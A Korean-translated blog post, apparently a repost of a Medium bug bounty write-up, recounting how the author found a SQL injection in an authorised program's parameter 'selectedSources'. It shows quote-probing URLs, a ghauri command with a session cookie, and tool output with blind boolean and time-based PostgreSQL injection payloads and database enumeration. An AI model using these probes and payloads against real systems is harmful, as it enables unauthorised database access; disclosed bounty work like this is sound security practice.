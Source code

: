 ```yaml
---
title: "첫 번째 유로 보상을 받은 방법"
description: ""
coverImage: "/assets/img/2024-06-19-HowIGotMyFirstBounty_0.png"
date: 2024-06-19 21:16
ogImage:
  url: /assets/img/2024-06-19-HowIGotMyFirstBounty_0.png
tag: Tech
originalTitle: "How I Got My First €€€€ Bounty"
link: "https://medium.com/@machiavellli/how-i-got-my-first-bounty-65ad8a1763de"
isUpdated: true
---
```


안녕하세요!

이 글에서는 어떻게 첫 번째 €€€€ 현상금을 발견했는지에 대해 공유하겠습니다.

처음에는 프로그램 범위가 다양한 서비스와 관련된 URL 집합이었기 때문에 기본 수동 현지 조사로 시작했습니다. 예를 들어:

- https://ex.admin.service.example.com/

<div class="content-ad"></div>

https://ex.service.service.example.com/

https://ex.abc.service.example.com/

또한, 프로그램은 역할을 테스트하기 위한 자격 증명을 제공했습니다.

그런 다음 Burp를 통해 트래픽을 프록시하여 일반 사용자처럼 정렬기능을 제외한 다른 기능을 테스트하면서 사이트를 찾아보았지만, 흥미로운 기능은 없었습니다. 어떤 JS 파일에서 이미 본 흥미로운 매개변수들이 있었다는 것을 알게 되었습니다.

<div class="content-ad"></div>

“SelectedSources, SelectedTemplateNames” 처음에는 아마도 데이터베이스에서 일부 데이터를 가져오는 것인줄 알았어요. 그래서 '“, ‘, \', 와 같은 특수 문자를 입력하여 ' 이상을 찾는 테스트를 해보기로 결정했어요. 하나의 따옴표를 입력하자 500 HTTP 상태 코드(내부 서버 오류)를 받았고, 또 다른 따옴표를 더 추가하니 200 HTTP 상태 코드(정상)를 받았어요.

```js
https://ex.service.example.com/history?selectedSources=someSources' > 500
```

```js
https://ex.service.example.com/history?selectedSources=someSources'' > 200
```

가끔은 역슬래시를 입력하여 확인하기도 해요. 그런데 여기서는 400 안 좋은 요청(Java 앱이었어요)을 받았어요.

<div class="content-ad"></div>

```js
그 후에는 데이터베이스 버전을 추출하기 위해 sqlmap을 실행해 보았지만, 불행히도 sqlmap은 PostgreSQL이 DBMS임을 제외하고는 아무것도 추출하지 못했습니다. 그러나 포기하지 않고 대신 ghauri(https://github.com/r0oth3x49/ghauri.git)를 사용해 보았어요!

ghauri -u "https://ex.service.example.com/history?selectedSources=someSources" --dbms=postgres --cookie="JSESSIONID=09326D266052B6B0F7E391B7BBD3A284" --dbs

Boom! 🚀
```

<div class="content-ad"></div>

```js
[09:22:32] [INFO] 대상 URL에 대한 연결 테스트 중
Ghauri는 저장된 세션에서 다음 인젝션 지점을 재개했습니다:
매개변수: selectedSources (GET)
    유형: 블라인드 기반 boolean
    제목: OR 블라인드 기반 - WHERE 또는 HAVING 절
    페이로드: selectedSources=someSources') OR 06690=6690 OR ('04586'='4586

    유형: 블라인드 기반 시간
    제목: PostgreSQL > 8.1 및 시간 기반 블라인드 (주석)
    페이로드: selectedSources=someSources') AND 4564=(SELECT 4564 FROM PG_SLEEP(6)) OR ('04586'='4586

[09:22:33] [INFO] PostgreSQL 테스트 중
[09:22:34] [INFO] PostgreSQL 확인 중
[09:22:34] [INFO] 백엔드 DBMS는 PostgreSQL입니다
[09:22:34] [INFO] 데이터베이스 이름 검색 중
[09:22:34] [INFO] 데이터베이스 수 검색 중
[09:22:51] [INFO] 검색된 결과: 3
[09:26:01] [INFO] 검색된 결과: information_schema
[09:27:51] [INFO] 검색된 결과: pg_catalog
[09:28:57] [INFO] 검색된 결과: public
사용 가능한 데이터베이스 [3]:
[*] pg_catalog
[*] public
[*] information_schema
```

제보했고, 딱 한 시간 만에 트리저가 보고서를 회사에 전달했고, 그들은 취약점을 인정했습니다.

<img src="/assets/img/2024-06-19-HowIGotMyFirstBounty_0.png" />

다음 날, 회사에서 바운티를 수여했습니다.

<div class="content-ad"></div>

![이미지](/assets/img/2024-06-19-HowIGotMyFirstBounty_1.png)

마지막으로, 이해하지 못하는 도구, 기술 또는 프로그램에만 집착하지 마세요. 그렇게 하면 탈진하게 될 거예요. 이미 인터넷은 취약점으로 가득 찬 곳이니까요.

Twitter/X: https://x.com/MachIaVellill

سَلامٌ
